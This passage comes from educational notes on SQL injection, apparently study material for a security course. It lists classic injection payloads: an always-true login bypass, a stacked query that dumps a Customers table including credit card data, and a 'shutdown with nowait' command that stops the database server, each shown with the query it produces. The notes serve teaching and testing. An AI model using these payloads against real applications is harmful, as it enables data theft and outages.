 - quoted injection test:
  - where a parameter in the argument of an SQL statement is modified by preﬁxing and appending it with quotes.

- Another testing option, use automated vulnerability scanning tools:
  - WebInspect and Acunetix.


---

## Conducting an Attack  

1. put a SQL statement in the fields that is always true
2. comments out the second single quote to prevent a SQL error.



`1=1`
- `SELECT * FROM tblUSERS WHERE UserName ='' AND Password = ''`
  - `SELECT * FROM tblUSERS WHERE UserName ='admin' AND Password = 'password''`;
  - attacker will **put a SQL statement in the fields that is always true**,
    - like: `' or '1' ='1`
  - `SELECT * FROM tblUSERS WHERE UserName ='' or '1' ='1' AND Password = '' or '1' ='1''`


- Input: Darril Gibson
  - `SELECT * FROM Books WHERE Author='Darril Gibson'`
  - Acctack input: `Darril Gibson'; SELECT * FROM Customers; --`
  - `SELECT * FROM Books WHERE Author='Darril Gibson'; SELECT * FROM Customers;` --'
    - reads all the data in the Customers table: names, credit card data, and more.
    - SQL Server ignores everything after a `--`
    - comments out the second single quote to prevent a SQL error.
    - The `; character`: denotes the end of an SQL query statement  


`' or username is not null or username= '`
- `SELECT Username FROM Users WHERE Username = '';`
- `SELECT Username FROM Users WHERE Username= '' or Username is not null or Username= '';`


`; shutdown with nowait;--`
- SQL server provides another command that can be used in SQL injection:  
- This command will terminate the server operation and implement an attack with the following responses:  
  - Username: `; shutdown with nowait; --`
  - Password: `[Leave blank]`
- If the SQL server is vulnerable, the following statement will be executed:
  - `SELECT Username FROM Users Where username= ‘ ; shutdown with nowait; -- ’ and user_Pass=' '`


---

### Lack of Strong Typing  

Another form of SQL injection takes advantage of the SQL developer not having incorporated strong typing into program.
